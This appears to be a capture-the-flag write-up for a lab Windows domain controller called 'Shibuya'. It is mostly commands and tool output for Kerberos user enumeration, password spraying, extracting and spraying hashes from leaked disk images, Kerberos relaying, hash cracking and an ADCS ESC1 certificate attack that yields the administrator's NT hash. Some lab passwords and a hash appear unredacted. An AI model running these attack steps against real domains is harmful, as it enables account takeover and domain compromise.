






10.10.100.216
## Entry
nmap
```
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
and nxc
```
➜  Shibuya nxc smb 10.10.100.216
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
```
lets gooo!!!
### userenum
its easy to find 2 usernames with [kerbrute_linux_amd64](https://github.com/ropnop/kerbrute)


lets do user : user spray and look at shares



its only work with “-k”  options WHY?

> without -k → NTLM Authentication
{: .prompt-tip }
> with -k options → Kerberos Authentication
{: .prompt-tip }

users shares seems interesting but we have images$ which is more interesting so lets check if any Description or Misconfiguration here and try to access there

### Description for get pass

    ➜  Shibuya nxc smb 10.10.100.216 -u "purple" -p "purple" -k --users
    SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
    SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\purple:purple 
    SMB         10.10.100.216   445    AWSJPDC0522      -Username-                    -Last PW Set-       -BadPW- -Description-   
    SMB         10.10.100.216   445    AWSJPDC0522      _admin                        2025-02-15 07:55:29 0       Built-in account for administering the computer/domain
    SMB         10.10.100.216   445    AWSJPDC0522      Guest                         <never>             0       Built-in account for guest access to the computer/domain
    SMB         10.10.100.216   445    AWSJPDC0522      krbtgt                        2025-02-15 07:24:57 0       Key Distribution Center Service Account
    SMB         10.10.100.216   445    AWSJPDC0522      svc_autojoin                  2025-02-15 07:51:49 0       K<redacted>V



we can also get usernames list here or with —rid-brute

it has NTLM auth

```
➜  Shibuya nxc smb 10.10.100.216 -u svc_autojoin -p "K<redcted>V"
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K<redacted>V
```
also images readable rn lets goo!!!
### images$

```
➜  Shibuya nxc smb 10.10.100.216 -u svc_autojoin -p "K<redacted>V" --shares
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV 
SMB         10.10.100.216   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.100.216   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.100.216   445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.100.216   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.100.216   445    AWSJPDC0522      C$                              Default share
SMB         10.10.100.216   445    AWSJPDC0522      images$         READ            
SMB         10.10.100.216   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.100.216   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.10.100.216   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.10.100.216   445    AWSJPDC0522      users           READ            
```
we have huge files which is need extract i used 7z x here

```
➜  Shibuya smbclient \\\\shibuya.vl\\images$ -U "svc_autojoin"
Password for [WORKGROUP\svc_autojoin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 16 06:24:08 2025
  ..                                DHS        0  Wed Feb 19 07:59:37 2025
  AWSJPWK0222-01.wim                  A  8264070  Sun Feb 16 06:23:41 2025
  AWSJPWK0222-02.wim                  A 50660968  Sun Feb 16 06:23:45 2025
  AWSJPWK0222-03.wim                  A 32065850  Sun Feb 16 06:23:47 2025
  vss-meta.cab                        A   365686  Sun Feb 16 06:22:37 2025

                6126847 blocks of size 4096. 1235127 blocks available
smb: \> 

```
that was really interesting we have SAM,SYSTEM,SECURITY files there.

```
➜  cab 7z x AWSJPWK0222-02.wim
➜  AWSJPWK0222-02 ls
[SNIP]
netlogon.ftl
RegBack
SAM
[SNIP]
SECURITY
[SNIP]
SYSTEM
[SNIP]
TxR
```


lets grab full users list and spray with operator hash!!!

its can take time so i already up our user and there is results…



as u remember we have Users shares so we can go and grab flag for Simon.Watson

--pw-nt-hash will work!!!!!

FLAG

```
➜  Shibuya smbclient //shibuya.vl/users -U Simon.Watson --pw-nt-hash

Password for [WORKGROUP\Simon.Watson]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Feb 16 05:42:24 2025
  ..                                DHS        0  Wed Feb 19 07:59:37 2025
  Administrator                       D        0  Sat Feb 15 01:49:31 2025
  All Users                       DHSrn        0  Sat May  8 04:34:03 2021
  Default                           DHR        0  Sat Feb 15 10:49:13 2025
  Default User                    DHSrn        0  Sat May  8 04:34:03 2021
  desktop.ini                       AHS      174  Sat May  8 04:18:31 2021
  nigel.mills                         D        0  Tue Feb 18 14:29:42 2025
  Public                             DR        0  Sat Feb 15 01:49:31 2025
  simon.watson                        D        0  Tue Feb 18 14:36:45 2025

                6126847 blocks of size 4096. 1236226 blocks available
smb: \> cd simon.watson\
smb: \simon.watson\> cd Desktop\
smb: \simon.watson\Desktop\> ls
  .                                  DR        0  Sun Feb 16 05:42:41 2025
  ..                                  D        0  Tue Feb 18 14:36:45 2025
  flag.txt                            A       36  Sun Feb 16 05:43:08 2025

                6126847 blocks of size 4096. 1236722 blocks available
```
## Second Part
lets change password for Simon.Watson cause its not great to use hash afwd

NewPassword123!

[smbclient.py](http://smbclient.py) for change password

```
➜  Shibuya smbclient.py -hashes :5d8c3d1a20bd63f60f469f6763ca0d50 shibuya.vl/Simon.Watson@shibuya.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# password
New Password:
--------------------------
➜  Shibuya nxc smb shibuya.vl -u simon.watson -p 'NewPassword123!'            
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\simon.watson:NewPassword123!
```
we have ssh which is open so lets use it for access machine and put proxyc for other ports (LDAP,WINRM,RDP etc.)
### Proxy
```
➜  Shibuya ssh Simon.Watson@shibuya.vl -p22 -N -D 1080
Simon.Watson@shibuya.vl's password:
```
but it will just put proxy not will drop shell 

for drop shell

```
ssh Simon.Watson@shibuya.vl
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>
```
### Bloodhound btw
```
proxychains -q bloodhound-python -u 'simon.watson' -d shibuya.vl -p 'NewPassword123!' -ns 127.0.0.1 --disable-pooling --zip -c all,loggedon --dns-timeout 50 -dc AWSJPDC0522.shibuya.vl
proxychains -q dnschef --fakeip 10.10.100.216 --fakedomains shibuya.vl -q
```
but there is just interesting  things is here

for example our users member of t2_admins

```
PS C:\Users\simon.watson> net users simon.watson
User name                    Simon.Watson
Full Name                    Simon Watson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/21/2025 3:44:22 PM
Password expires             Never
Password changeable          2/22/2025 3:44:22 PM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/21/2025 3:47:15 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *shibuya              *t2_admins
```

what about t1_admins or any others?

they have 2 member lets see if we can acecess them


### ESC8 wont work (WHY?)
WHY I DECIDED TO DO RELAY??????

this machines teach me somethings which is really important….

1- First of all i found ESC8 and its force me a lot to do Relay attack thats why;

```
➜  Shibuya proxychains certipy-ad find -username 'simon.watson' -password 'NewPassword123!' -vulnerable -dc-ip 10.10.100.216 -stdout -debug
[SNIP]
  0
    CA Name                             : shibuya-AWSJPDC0522-CA
    DNS Name                            : AWSJPDC0522.shibuya.vl
    Certificate Subject                 : CN=shibuya-AWSJPDC0522-CA, DC=shibuya, DC=vl
    Certificate Serial Number           : 2417712CBD96C58449CFDA3BE3987F52
    Certificate Validity Start          : 2025-02-15 07:24:14+00:00
    Certificate Validity End            : 2125-02-15 07:34:13+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SHIBUYA.VL\Administrators
      Access Rights
        ManageCertificates              : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
        ManageCa                        : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
        Enroll                          : SHIBUYA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates                   : [!] Could not find any certificate templates
```
it will never work thats why;
```
➜  Shibuya proxychains -q nxc ldap 10.10.100.216 -u Simon.Watson -p 'NewPassword123!' -M adcs 
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
LDAP        10.10.100.216   389    AWSJPDC0522      [+] shibuya.vl\Simon.Watson:NewPassword123! 
ADCS        10.10.100.216   389    AWSJPDC0522      [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.100.216   389    AWSJPDC0522      Found PKI Enrollment Server: AWSJPDC0522.shibuya.vl
ADCS        10.10.100.216   389    AWSJPDC0522      Found CN: shibuya-AWSJPDC0522-CA
```

> FALSE POSITIVE it didnt show web enrollment
{: .prompt-tip }
WHY never web enrollment at standalone?

> cauze its on the DC it wont work, we cannot relay to self its a rule
{: .prompt-tip }
> DC → DC relay is impossible.
{: .prompt-tip }
> So DC is the same CA.
{: .prompt-tip }

### KrbRelay
but its hit me to use [KrbRelay](https://github.com/cube0x0/KrbRelay)

if u trying to understand it u will see that and its pretty cool we did same before at HTB


for better understand
https://0xdf.gitlab.io/2023/05/27/htb-absolute.html#krbrelay-background

i will use with RunAsCs.exe and u can find [compiled binary of KrbRelay](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/KrbRelay.exe)

lets look at first of all which user we will get 😉

```
PS C:\Temp> .\r.exe 'svc_autojoin' 'K<redacted>V' qwinsta
[*] Warning: User profile directory for user svc_autojoin does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'svc_autojoin' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 rdp-tcp#0         nigel.mills               1  Active
 console                                     2  Conn                        
 31c5ce94259d4...                        65536  Listen
 rdp-tcp                                 65537  Listen
```
and run krbrlelay for just got ntlm hash maybe its crackable


> But its not gonna work if u try with usage ports like 5985
{: .prompt-tip }

and we got it



lets try to crack it its work for nigel.mills

    ➜  Shibuya hashcat nigel_hash /usr/share/wordlists/rockyou.txt 
    NIGEL.MILLS::SHIBUYA:b27bf70a784281ee::[SNIP]:S[redacted]3

## Final Part

### ESC1

```
➜  Shibuya proxychains -q certipy-ad find -username 'Nigel.Mills' -password '<redacted>' -vulnerable -dc-ip 10.10.100.216 -stdout -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.100.216:636 - ssl
[+] Default path: DC=shibuya,DC=vl
[+] Configuration path: CN=Configuration,DC=shibuya,DC=vl
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     SHIBUYA.VL\ssh (S-1-5-21-87560095-894484815-3652015022-3101)
     SHIBUYA.VL\shibuya (S-1-5-21-87560095-894484815-3652015022-1108)
     SHIBUYA.VL\Nigel Mills (S-1-5-21-87560095-894484815-3652015022-1367)
     SHIBUYA.VL\Everyone (SHIBUYA.VL-S-1-1-0)
     SHIBUYA.VL\t1_admins (S-1-5-21-87560095-894484815-3652015022-1103)
     SHIBUYA.VL\Authenticated Users (SHIBUYA.VL-S-1-5-11)
     SHIBUYA.VL\Users (SHIBUYA.VL-S-1-5-32-545)
     SHIBUYA.VL\Domain Users (S-1-5-21-87560095-894484815-3652015022-513)
     SHIBUYA.VL\Domain Computers (S-1-5-21-87560095-894484815-3652015022-515)
     SHIBUYA.VL\Remote Desktop Users (SHIBUYA.VL-S-1-5-32-555)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'AWSJPDC0522.shibuya.vl' at '10.10.100.216'
[*] Trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.100.216
[!] Got error while trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'AWSJPDC0522.shibuya.vl' (10.10.100.216)
[*] Got CA configuration for 'shibuya-AWSJPDC0522-CA'
[+] Resolved 'AWSJPDC0522.shibuya.vl' from cache: 10.10.100.216
[+] Connecting to 10.10.100.216:80
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : shibuya-AWSJPDC0522-CA
    DNS Name                            : AWSJPDC0522.shibuya.vl
    Certificate Subject                 : CN=shibuya-AWSJPDC0522-CA, DC=shibuya, DC=vl
    Certificate Serial Number           : 2417712CBD96C58449CFDA3BE3987F52
    Certificate Validity Start          : 2025-02-15 07:24:14+00:00
    Certificate Validity End            : 2125-02-15 07:34:13+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SHIBUYA.VL\Administrators
      Access Rights
        ManageCertificates              : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
        ManageCa                        : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
        Enroll                          : SHIBUYA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates
  0
    Template Name                       : ShibuyaWeb
    Display Name                        : ShibuyaWeb
    Certificate Authorities             : shibuya-AWSJPDC0522-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Any Purpose
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 75 years
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SHIBUYA.VL\t1_admins
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : SHIBUYA.VL\_admin
        Write Owner Principals          : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
        Write Dacl Principals           : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
        Write Property Principals       : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
    [!] Vulnerabilities
      ESC1                              : 'SHIBUYA.VL\\t1_admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SHIBUYA.VL\\t1_admins' can enroll and template can be used for any purpose
      ESC3                              : 'SHIBUYA.VL\\t1_admins' can enroll and template has Certificate Request Agent EKU set
```

>but our administrator usernames is _admin !! its really important to know before use we need _admin sids so if nigels equal to S-1-5-21-87560095-894484815-3652015022-1367 _admin is S-1-5-21-87560095-894484815-3652015022-500
{: .prompt-tip }

```
➜  Shibuya proxychains -q certipy-ad req -u nigel.mills@shibuya.vl -p Sail2Boat3 -upn _admin -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -key-size 4096 -sid 'S-1-5-21-87560095-894484815-3652015022-500'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN '_admin'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'
```
and get NTLM hash

```
➜  Shibuya proxychains -q certipy-ad auth -pfx _admin.pfx -username _admin -domain shibuya.vl -dc-ip 10.10.100.216

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:[readactedaf]
```

